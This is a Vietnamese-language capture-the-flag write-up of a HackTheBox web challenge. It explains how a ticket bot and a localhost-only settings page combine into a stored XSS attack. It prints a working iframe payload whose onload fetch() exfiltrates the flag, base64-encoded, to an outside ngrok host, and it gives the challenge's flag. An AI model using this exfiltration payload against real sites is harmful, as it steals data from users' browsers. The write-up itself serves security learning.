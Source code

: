 ![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/Untitled.png)
ta tiến hành đọc code và thấy rằng ở tệp __challenge/views/settings.html__ có flag nằm ở thẻ input
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/4.png)
<br />
tệp challenge/routes/index.js có đoạn code mô tả
chỉ cần truy cập vào đường dẫn __/settings__  thì sẽ nhận response là __settings.html__ nhưng mà đường dẫn này chỉ có ip localhost mới được truy cập.
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/1.png)

ở đoạn mã này có mô tả, ta chỉ cần gửi 1 gói __json gồm có name, email, website, message__ thì sẽ lưu vào database
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/3.png)
và sau đó con bot sẽ tiến hành truy cập đến đường dẫn __/tickets__
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/%60.png)

khi vào đường dẫn __/tickets__  này, sẽ hiện thị ra toàn bộ dữ liệu trong table __tickets__ 
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/2.png)

bây giờ ta chỉ cần chèn mã script vào bất kỳ trường __name, email, website, message__ trong gói json gửi lên __/api/submit_ticket__   để thực hiện XSS yêu cầu con bot truy cập đến đường dẫn __/settings__ trên web và truy xuất đến thẻ input thứ 5 lấy value cũng chính là flag gửi flag về máy mình
``` 
<iframe id="iframetrung" src="settings" onload=fetch("http://027d-2001-ee0-4f0f-d3b0-910-70-84f3-2af0.ngrok.io/?flag="+btoa(document.getElementById('iframetrung').contentWindow.document.getElementsByTagName("input")[4].value)); >
</iframe>
```
 dùng công cụ ngrok để nhận flag gửi về
__HTB{bl1nk_bl1nk_bl1nd_bl1nd}__
<br />

[source của bài này](https://github.com/magnetohvcs/ctf/raw/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/web_blink_host.zip)

